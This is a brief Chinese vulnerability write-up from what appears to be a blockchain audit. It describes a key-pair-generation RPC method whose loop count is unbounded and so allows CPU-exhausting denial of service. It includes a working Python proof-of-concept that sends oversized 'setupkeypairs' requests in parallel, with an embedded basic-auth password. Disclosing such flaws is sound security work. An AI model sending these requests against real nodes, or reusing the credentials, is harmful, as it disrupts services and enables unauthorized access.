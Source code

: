 之前在做某公链审计时发现存在 for 循环的逻辑代码在设计时器循环的次数由外部用户可控的参数决定，故用户可以通过构造一个恶意的参数从而让该 for 循环不间歇的进行循环操作，从而消耗大量的 CPU 内存，甚至造成 DDOS。  
用于生成公钥/私钥对的 RPC 接口对于传入的要生成公钥/私钥对的个数 num 未做限制，直接 for 循环 num 次生成 num 对公钥/私钥，攻击者可以通过传入较大的 num 参数，之后可导致 CPU 短时间内处于高占用状  
setupkeyparis 逻辑设计：  
[![](assets/1706957988-be02cceb76046b31c89a32de0b9f4d02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201151753-039f1970-c0d2-1.png)  
测试脚本：

```plain
#!/usr/bin/env python3
from gevent import pool,monkey
monkey.patch_all()
import requests
def exp():
   URL = "http://172.16.1.148:5112"
   data = {
         "jsonrpc": "2.0",
         "method": "setupkeypairs",
         "configs": [214748364],
         "id": "rpcsetupkeypairs"
    }
   s = requests.session()
   s.auth = ('xxxx','BbaEZMi9kbzi9ptK8jNsEKVQUxrQbdVf9ZhUrakoQ8yC')
   response = s.post(url=URL,json=data)
   print(response.json())
def run():
   p = pool.Pool()
   for i in range(5):
      p.apply_async(exp)
      p.join()
if __name__ == '__main__':
   run()
```
